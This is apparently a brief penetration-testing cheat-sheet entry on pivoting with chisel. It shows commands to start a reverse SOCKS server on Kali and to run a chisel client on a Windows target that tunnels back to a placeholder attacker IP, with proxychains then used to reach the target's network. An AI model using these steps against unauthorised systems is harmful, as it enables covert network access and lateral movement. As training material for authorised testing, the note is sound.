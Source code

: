 download chisel on https://github.com/jpillora/chisel/releases 

download **[chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) for kali and [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) for target windows.**

prepare chisel server on kali : 

```bash
chmod +x chisel
```

open server on kali : 

```bash
./chisel server -p <Local_Attacker_Port> --socks5 --reverse
```

![image](https://user-images.githubusercontent.com/55615071/189031440-23102649-c833-4ace-a1a0-10f33dc3388e.png)


upload chisel.exe to windows target and run following command.

```bash
chisel.exe client <attacker_IP>:<Local_listening_port> R:socks &
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4fa68b5-f62c-4f5a-a9f6-28601b830310/Untitled.png)

Remind : & on command is meaning run chisel on background

After run chisel client, check state connect on chisel server. it should be like this

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/eb2252b3-4735-45a4-ac46-52f2ae4e209d/Untitled.png)

try testing by use proxychains before command
